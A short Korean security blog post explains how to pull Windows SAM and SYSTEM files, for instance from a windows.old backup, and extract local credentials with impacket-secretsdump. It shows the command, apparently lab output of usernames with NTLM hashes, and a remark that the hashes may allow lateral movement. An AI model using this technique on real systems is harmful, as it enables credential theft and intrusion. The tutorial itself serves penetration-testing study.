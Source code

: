 ```yaml
---
layout: post
title: SAM, SYSTEM 덤프하기
subtitle: SAM, SYSTEM 덤프해서 크레덴셜 알아내는 방법
category: knowledge
thumbnail-img: /assets/img/404-southpark.jpg
tags: [sam, system, impacket-secretsdump]
author: Hong
---
```


# SAM과 SYSTEM

윈도우의 system32 폴더 안에는 비밀번호, NTLM 해쉬 같은 크레덴셜 정보를 담고 있는 SAM, SYSTEM같은 파일들이 있다.

민감한 파일들이라 평소에는 보호받고 있어서 복붙도 불가능하다.

하지만 백업파일로 남아있는 경우 (windows.old 같은) 이 민감한 파일들을 이용해서 유저의 크레덴셜을 추출할 수가 있다.

# SAM, SYSTEM 파일에서 정보 추출하기

kali에서 impacket-secretsdump라는 툴을 사용하기 위해 공격자 머신으로 두 파일을 옮길 필요가 있다.

파일들은 system32 폴더 안을 찾아보면 있다.

![SAM](/assets/img/knowledge/samsystem.png)

두 파일을 옮겼으면 다음의 명령어를 사용해서 크레덴셜을 추출한다.

```bash
impacket-secretsdump -sam SAM -system SYSTEM LOCAL

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::       Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::            DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                   WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:acbb9b77c62fdd8fe5976148a933177a:::
tom_admin:1001:aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc:::
Cheyanne.Adams:1002:aad3b435b51404eeaad3b435b51404ee:b3930e99899cb55b4aefef9a7021ffd0:::
David.Rhys:1003:aad3b435b51404eeaad3b435b51404ee:9ac088de348444c71dba2dca92127c11:::
Mark.Chetty:1004:aad3b435b51404eeaad3b435b51404ee:92903f280e5c5f3cab018bd91b94c771:::
```

그럼 위와 같이 유저명과 크레덴셜들이 출력되는데 가장 뒤에 있는 게 NTLM 해쉬다.

해쉬를 이용해서 다른 머신으로 래터럴무브먼트가 가능할지도 모른다.
